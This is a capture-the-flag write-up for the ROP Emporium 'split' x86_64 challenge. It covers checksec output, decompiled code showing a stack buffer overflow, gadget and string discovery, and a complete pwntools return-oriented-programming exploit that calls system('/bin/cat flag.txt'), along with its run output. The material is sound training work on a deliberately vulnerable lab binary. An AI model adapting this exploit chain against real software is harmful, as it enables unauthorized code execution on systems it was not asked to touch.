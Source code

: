 # Split

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ checksec split
[*] '/home/vein/rop_emporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./split     
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack
```
## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("split by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_28,0x60);
  puts("Thank you!");
  return;
}
```
```c

void usefulFunction(void)

{
  system("/bin/ls");
  return;
}
```
We open Ghidra and we saw that a pwnme() function is called by the main.
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long
and the read() takes up to 96 = 0x60

# Exploitation
Challeneg description talks about a string that we maybe need to solve it.
We found it with rabin2 but we also can with Ghidra and with pwndbg.
It's the "/bin/cat flag.txt"
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ rabin2 -z split  
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

What we want to do is to navigate to usefulFunction() function and put inside the system()
the string "/bin/cat flag.txt" to take the flag.
To achieve this we want a rop gadget to pop it into the stack
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ropper -f split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;
```

So, now we are ready to craft our payload.
Here is the python script
```python3
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./split', checksec=False)
p = process()
context.log_level = 'info'

offset = b'a' * 40

pop_rdi = 0x4007c3      # pop rdi; ret;
bin_cat = 0x601060      # /bin/cat "flag.txt"
system_addr = 0x40074b  # and the system()

payload = offset
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system_addr)

p.sendlineafter(b'>', payload)
log.info(p.recvuntil(b'}')) # to receive only until the end of the flag
```
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./exploit.py                      
[+] Starting local process '/home/vein/rop_emporium/split/split': pid 8091
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/vein/rop_emporium/split/split' (pid 8091)
```
